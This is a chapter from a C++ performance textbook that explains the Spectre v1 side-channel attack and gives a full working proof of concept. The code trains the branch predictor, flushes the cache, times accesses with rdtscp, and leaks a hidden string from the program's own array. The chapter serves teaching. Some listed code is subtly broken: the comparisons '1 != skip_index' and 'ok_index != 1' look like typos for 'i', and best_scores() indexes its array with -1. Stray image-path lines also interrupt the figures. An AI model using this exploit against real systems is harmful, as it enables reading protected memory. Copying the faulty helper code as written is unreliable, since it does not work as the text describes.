
In the last two chapters, we have learned how complex the path from the initial data to the final result can be on a modern computer. Sometimes the machine does precisely what the code prescribes: read the data from memory, do the computations as written, save the results back to memory. More often than not, however, it goes through some strange intermediate states we don't even know about. Read from memory does not always read from memory: instead of executing instructions as written, the CPU may decide to execute something else, speculatively, because it thinks you will need it, and so on. We have tried to confirm by direct performance measurements that all of those things really do exist. By necessity, these measurements are always indirect: the hardware optimizations and transformations of the code are designed to deliver the correct result, after all, only faster.

In this section, we show yet more observable evidence of the hardware operations that were supposed to remain hidden. This is a big one: its discovery in 2018 triggered a brief cybersecurity panic and a flood of patches from hardware and software vendors. We are talking about the Spectre and Meltdown family of security vulnerabilities, of course.

\subsubsubsection{4.6.1\hspace{0.2cm}What is Spectre?}

In this section, we will demonstrate, in detail, the early version of the Spectre attack, known as Spectre version 1. This isn't a book on cybersecurity; however, the Spectre attack is carried out by carefully measuring the performance of the program, and it relies on the two performance-enhancing hardware techniques we have studied in this book: speculative execution and memory caching. This makes the attack educational in a work dedicated to software performance as well.

The idea behind Spectre is as follows. We have learned earlier that when a CPU encounters a conditional jump instruction, it attempts to predict the result and proceeds to execute the instructions in the assumption that the prediction is correct. This is known as speculative execution, and without it, we would not have pipelining in any practically useful code. The tricky part of the speculative execution is the error handling: errors frequently occur in the speculatively executed code, but until the prediction is proven correct, these errors must remain invisible. The most obvious example is the null pointer dereference: if the processor predicts that a pointer is not null and executes the corresponding branch, a fatal error will occur every time the branch is mispredicted, and the pointer is, in fact, null. Since the code is written correctly to avoid dereferencing the null pointer, it must execute correctly as well: the potential error must remain potential. Another common speculative error is array boundary read or write:

\begin{lstlisting}[style=styleCXX]
int a[N];
…
if (i < N) a[i] = …
\end{lstlisting}

If the index i is usually less than the array size N, then that will become the prediction, and the read from a[i] will be executed, speculatively, every time. What happens if the prediction is wrong? The result is discarded, so no harm was done, right? Not so fast: the memory location a[i] is not in the original array. It doesn't even have to be the element right after the array. The index could be arbitrarily large, so the indexed memory location could belong to a different program or even to the operating system. We do not have the access privileges to read this memory. The OS does enforce access control, so normally trying to read some memory from another program would trigger an error. But this time, we do not know for sure that the error is real: the execution is still in the speculative phase, and the branch prediction could have been wrong. The error remains a speculative error until we know whether the prediction was correct. There is nothing new here so far; we have seen it all earlier.

However, there is a subtle side effect to the potentially illegal read operation: the value a[i] is loaded into the cache. The next time we try to read from the same location, the read will be faster. This is true whether the read is real or speculative: memory operations during speculative execution work just like the real ones. Reading from the main memory takes longer while reading from the cache is faster. The speed of memory load is something we can observe and measure. It is not the intended result of the program but a measurable side effect nonetheless. In effect, the program has an additional output mechanism through means other than its intended output; this is called a side-channel.

The Spectre attack exploits this side-channel:

\hspace*{\fill} \\ %插入空行
\begin{center}

\includegraphics[width=0.9\textwidth]{content/1/chapter4/images/17.jpg}\\
Figure 4.17 – Setting up the Spectre attack
\end{center}

It uses the value at the location a[i], obtained during the speculative execution, to index into another array, t. After this is done, one array element, t[a[i]], will be loaded into the cache. The rest of the array t was never accessed and is still in memory. Note that, unlike the element a[i], which is not really an element of the array a but some value at the memory location we can't get to by any legitimate means, the array t is entirely within our control. It is crucial for the success of the attack that the branch remains unpredicted long enough while we read the value a[i] and then the value t[a[i]]. Otherwise, the speculative execution will end as soon as the CPU detects that the branch is mispredicted and none of these memory accesses are, in fact, needed. After the speculative execution is carried out, the misprediction is eventually detected, and all the consequences of the speculative operations are rolled back, including the would-be memory access error. All consequences but one, that is: the value of the array t[a[i]] is still in the cache. There is nothing wrong with it, per se: accessing this value is legal, we can do it any time, and, in any case, the hardware moves data from and to the caches all the time; it never changes the result or lets you access any memory you weren't supposed to.

There is, however, an observable after-effect of this entire series of events: one element of the array t is much faster to access than the rest of them:

\hspace*{\fill} \\ %插入空行
\begin{center}

\includegraphics[width=0.9\textwidth]{content/1/chapter4/images/18.jpg}\\
Figure 4.18 – Setting up the Spectre attack
\end{center}

If we can measure how long it takes to read each element of the array t, we can find out the one that was indexed by the value a[i]; that is the secret value we were not supposed to know!

\subsubsubsection{4.6.2\hspace{0.2cm}Spectre by example}

The Spectre attack takes several pieces to put together; we will go through them one by one since, overall, it is quite a large coding example for a book (this particular implementation is a variation on the example given by Chandler Carruth at CPPCon in 2018).

One component we will need is an accurate timer. We can try to use the C++ high-resolution timer:

\begin{lstlisting}[style=styleCXX]
using std::chrono::duration_cast;
using std::chrono::nanoseconds;
using std::chrono::high_resolution_clock;
long get_time() {
	return duration_cast< nanoseconds>(
	high_resolution_clock::now().time_since_epoch()
	).count();
}
\end{lstlisting}

The overhead and the resolution of this timer depend on the implementation; the standard does not require any particular performance guarantees. On the x86 CPU, we can try to use the time-stamp counter (TSC), which is a hardware counter that counts the number of cycles since some point in the past. Using the cycle count as a timer typically results in noisier measurements, but the timer itself is faster, which is important here, considering that we are going to try to measure how long it takes to load a single value from memory. GCC, Clang, and many other compilers have a built-in function for accessing this counter:

\begin{lstlisting}[style=styleCXX]
long get_time() {
	unsigned int i;
	return __rdtscp(&i); // GCC/Clang intrinsic function
}
\end{lstlisting}

Either way, we now have a fast timer. The next step is the timing array. In practice, it's not quite as simple as an array of integers, which we implied in our figures: integers are too close to each other in memory; loading one into the cache affects the time it takes to access its neighbors. We need to space the values far apart:

\begin{lstlisting}[style=styleCXX]
constexpr const size_t num_val = 256;
struct timing_element { char s[1024]; };
static timing_element timing_array[num_val];
::memset(timing_array, 1, sizeof(timing_array));
\end{lstlisting}

Here we are going to use only the first byte of the timing\_element; the rest are there to enforce the distance in memory. There is nothing magical about the distance of 1024 bytes; it just has to be large enough, but what that is for you is something that you have to determine experimentally: the attack becomes unreliable if the distance is too small. There are 256 elements in the timing array. This is because we are going to read the secret memory one byte at a time. So, in our earlier example, the array a[i] will be an array of characters (even if the real data type is not char, we can still read it byte by byte). Initializing the timing array is not, strictly speaking, necessary; nothing depends on the content of this array.

We are now ready to see the heart of the code. What follows is a simplified  implementation: it is missing a few necessary twists that we are going to add later, but it's easier to explain the code by focusing on the key parts first.

We need the array that we are going to read out-of-bounds:

\begin{lstlisting}[style=styleCXX]
size_t size = …;
const char* data = …;
size_t evil_index = …;
\end{lstlisting}

Here size is the real size of the data, and evil\_index is larger than size: it is the index of the secret value outside of the proper data array.

Next, we are going to train the branch predictor: we need it to learn that the more likely branch is the one that does access the array. To that end, we generate a valid index that always points into the array (we will see exactly how in a moment). This is our ok\_index:

\begin{lstlisting}[style=styleCXX]
const size_t ok_index = …; // Less than size
constexpr const size_t n_read = 100;
for (size_t i_read = 0; i_read < n_read; ++i_read) {
	const size_t i = (i_read & 0xf) ? ok_index : evil_index;
	if (i < size) {
		access_memory(timing_array + data[i]);
	}
}
\end{lstlisting}

Then we read the memory at the location timing\_array + data[i], where i is either the ok index or the evil index, but the former happens much more often than the latter (we try to read the secret data only once out of 16 attempts, to keep the branch predictor trained for a successful read). Note that the actual memory access is guarded by a valid bounds check; this is of utmost importance: we never actually read the memory we are not supposed to read; this code is 100\% correct.

The function to access memory is, conceptually, just a memory read. In practice, we have to contend with the clever optimizing compiler, which will try to eliminate redundant or unnecessary memory operations. Here is one way, it uses intrinsic assembly (the read instruction is actually generated by the compiler because the location *p is flagged as input):

\begin{lstlisting}[style=styleCXX]
void access_memory(const void* p) {
	__asm__ __volatile__ ( "" : :
	"r"(*static_cast<const uint8_t*>(p)) : "memory" );
}
\end{lstlisting}

We run the prediction-misprediction loop a number of times (100, in our example). Now we expect one element of the timing\_array to be in the cache, so we just have to measure how long it takes to access each element. The one caveat here is that sequentially accessing the whole array will not work: the prefetch will quickly kick in and move the element we are about to access into the cache. Very effective most of the time, but not what we need now. We have to access the elements of the array in random order instead and store the time it took to access each element in the array of memory access latencies:

\begin{lstlisting}[style=styleCXX]
std::array<long, num_val> latencies = {};
for (size_t i = 0; i < num_val; ++i) {
	const size_t i_rand = (i*167 + 13) & 0xff; // Randomized
	const timing_element* const p = timing_array + i_rand;
	const long t0 = get_time();
	access_memory(p);
	latencies[i_rand] = get_time() - t0;
}
\end{lstlisting}

You may wonder, why not simply look for the one fast access? Two reasons: first, we don't know what fast really means for any particular hardware; we just know that it's faster than normal. So we have to measure what is normal too. Second, any individual measurement is not going to be 100\% reliable: sometimes, the computation is interrupted by another process or the OS; the exact timing of the whole sequence of operations depends on what else the CPU is doing at the time, and so on. It's only very likely that this process will reveal the value at the secret memory location, but not 100\% guaranteed, so we have to try several times and average the results.

Before we do that, there are several omissions in the code we saw. First of all, it assumes that the timing array values are not in the cache already. Even if it was true when we started, it wouldn't be after we successfully peek at the first secret byte. We have to purge the timing array from the cache every time before we start the attack on the next byte we want to read:

\begin{lstlisting}[style=styleCXX]
for (size_t i = 0; i < num_val; ++i) {
	_mm_clflush(timing_array + i); // Un-cache the array
}
\end{lstlisting}

Again, we use a GCC/Clang built-in function; most compilers have something similar, but the function name could vary.

Second, the attack works only if the speculative execution lasts long enough for the two memory accesses (data and timing array) to happen before the CPU figures out which branch it was supposed to take. In practice, the code as written does not spend enough time in the speculative execution context, so we have to make it harder to compute what the correct branch is. There is more than one way to do it; here, we make the branch condition dependent on reading some value from memory. We will copy the array size into another variable that is slow to access:

\begin{lstlisting}[style=styleCXX]
std::unique_ptr<size_t> data_size(new size_t(size));
\end{lstlisting}

Now we have to make sure this value is evicted from the cache before we need to read it and use the array size value stored in *data\_size instead of the original size value:

\begin{lstlisting}[style=styleCXX]
_mm_clflush(&*data_size);
for (volatile int z = 0; z < 1000; ++z) {} // Delay
const size_t i = (i_read & 0xf) ? ok_index : evil_index;
if (i < *data_size) {
	access_memory(timing_array + data[i]);
}
\end{lstlisting}

There is also a magical delay in the preceding code, some useless computation that separates the cache flush from the access to the data size (it defeats the possible instruction reordering that would let the CPU access the array size faster). Now the condition i < *data\_size takes some time to compute: the CPU needs to read the value from memory before it knows the result. The branch is predicted according to the more likely outcome, which is a valid index, so the array is accessed speculatively.

\subsubsubsection{4.6.3\hspace{0.2cm}Spectre, unleashed}

The final step is to put it all together and run the procedure many times to accumulate statistically reliable measurements (timing measurements of a single instruction are very noisy given that the timer itself takes about as long as what we are trying to measure).

The following function attacks a single byte outside of the data array:

\hspace*{\fill} \\ %插入空行
\noindent
\textbf{spectre.C}
\begin{lstlisting}[style=styleCXX]
char spectre_attack(const char* data,
                    size_t size, size_t evil_index) {
	constexpr const size_t num_val = 256;
	struct timing_element { char s[1024]; };
	static timing_element timing_array[num_val];
	::memset(timing_array, 1, sizeof(timing_array));
	std::array<long, num_val> latencies = {};
	std::array<int, num_val> scores = {};
	size_t i1 = 0, i2 = 0; // Two highest scores
	std::unique_ptr<size_t> data_size(new size_t(size));
	constexpr const size_t n_iter = 1000;
	for (size_t i_iter = 0; i_iter < n_iter; ++i_iter) {
		for (size_t i = 0; i < num_val; ++i) {
			_mm_clflush(timing_array + i); // Un-cache the array
		}
		const size_t ok_index = i_iter % size;
		constexpr const size_t n_read = 100;
		for (size_t i_read = 0; i_read < n_read; ++i_read) {
			_mm_clflush(&*data_size);
			for (volatile int z = 0; z < 1000; ++z) {} // Delay
			const size_t i = (i_read & 0xf) ? ok_index :
			evil_index;
			if (i < *data_size) {
				access_memory(timing_array + data[i]);
			}
		}
		for (size_t i = 0; i < num_val; ++i) {
			const size_t i_rand = (i*167 + 13) & 0xff;
			// Randomized
			const timing_element* const p = timing_array +
			i_rand;
			const long t0 = get_time();
			access_memory(p);
			latencies[i_rand] = get_time() - t0;
		}
		score_latencies(latencies, scores, ok_index);
		std::tie(i1, i2) = best_scores(scores);
		constexpr const int threshold1 = 2, threshold2 = 100;
		if (scores[i1] >
		scores[i2]*threshold1 + threshold2) return i1;
	}
	return i1;
}
\end{lstlisting}

For each element of the timing array, we will compute a score, which is the number of times this element was the fastest one to access. We also track the second-fastest element, which should be just one of the regular, slow to access, array elements. We keep doing it for many iterations: ideally, until we get the result, but, in practice, we have to give up at some point.

Once a large enough gap opens between the best score and the second-best score, we know that we have reliably detected the fast element of the timing array, which is the one indexed by the value of the secret byte (if we reach the maximum number of iterations without getting a reliable answer, the attack has failed, although we can try to use the best guess we have so far).

We have two utility functions to compute the average scores for the latencies and find the two best scores; these can be implemented any way you want as long as they give the correct results. The first function computes the average latency and increments the scores for the timing elements that have latencies somewhat below average (the threshold for somewhat has to be adjusted experimentally but is not very sensitive). Note that we expect one array element to be significantly faster to access, so we can skip it when computing the average latency (ideally, that one element would have much lower latency than the rest, and the rest would all be the same):

\hspace*{\fill} \\ %插入空行
\noindent
\textbf{spectre.C}
\begin{lstlisting}[style=styleCXX]
template <typename T>
double average(const T& a, size_t skip_index) {
	double res = 0;
	for (size_t i = 0; i < a.size(); ++i) {
		if (1 != skip_index) res += a[i];
	}
	return res/a.size();
}

template <typename L, typename S>
void score_latencies(const L& latencies, S& scores,
size_t ok_index) {
	const double average_latency =
	average(latencies, ok_index);
	constexpr const double latency_threshold = 0.5;
	for (size_t i = 0; i < latencies.size(); ++i) {
		if (ok_index != 1 && latencies[i] <
		average_latency*latency_threshold) ++scores[i];
	}
}
\end{lstlisting}

The second function simply finds the two best scores in the array:

\hspace*{\fill} \\ %插入空行
\noindent
\textbf{spectre.C}
\begin{lstlisting}[style=styleCXX]
template<typename S>
std::pair<size_t, size_t> best_scores(const S& scores) {
	size_t i1 = -1, i2 = -1;
	for (size_t i = 0; i < scores.size(); ++i) {
		if (scores[i] > scores[i1]) {
			i2 = i1;
			i1 = i;
		} else
		if (i != i1 && scores[i] > scores[i2]) {
			i2 = i;
		}
	}
	return { i1, i2 };
}
\end{lstlisting}

Now we have a function that returns the value of a single byte outside of the specified array without ever reading this byte directly. We are ready to use it to get access to some secret data! For demonstration, we are going to allocate a very large array but designate most of it off-limits by specifying a small value as the array size. This is, in practice, the only way you can demonstrate this attack today: since its discovery, most computers have been patched against the Spectre vulnerability, so, unless you have a machine that was hidden in a cave and not updated for a few years, the attack will not work against any memory that you are really not allowed to access. The patches do not prevent you from using Spectre against any data that you are allowed to access, but you have to examine the code and prove that it really does return the values without accessing the memory directly. That is what we are going to do: our spectre\_attack function does not read any memory outside of the data array of the specified size, so we can create an array that is twice as large as specified and hide a secret message in the upper half:

\hspace*{\fill} \\ %插入空行
\noindent
\textbf{spectre.C}
\begin{lstlisting}[style=styleCXX]
int main() {
	constexpr const size_t size = 4096;
	char* const data = new char[2*size];
	strcpy(data, "Innocuous data");
	strcpy(data + size, "Top-secret information");
	for (size_t i = 0; i < size; ++i) {
		const char c =
		spectre_attack(data, strlen(data) + 1, size +
		i);
		std::cout << c << std::flush;
		if (!c) break;
	}
	std::cout << std::endl;
	delete [] data;
}
\end{lstlisting}

Examine again the values we give to the spectre\_attack function: the array size is just the length of the string stored in the array; no other memory is accessed by the code except in the speculative execution context. All memory accesses are guarded by the correct bound checks. And yet, byte by byte, this program reveals the content of the second string, the one that is never read directly.

To conclude, we used the speculative execution context to peek at the memory that we are not allowed to access. Because the branch condition for accessing this memory is correct, the invalid access error remains a potential error; it never actually happens. All the results of the mispredicted branch are undone, except one: the accessed value remains in the cache, so the next access to the same value is faster. By measuring the memory access times carefully, we can figure out what that value was! Why did we do this when we are interested in performance, not hacking? Mostly to confirm that the processor and the memory really behave the way we described: the speculative execution really happens, and the caches really work and make data accesses faster.



















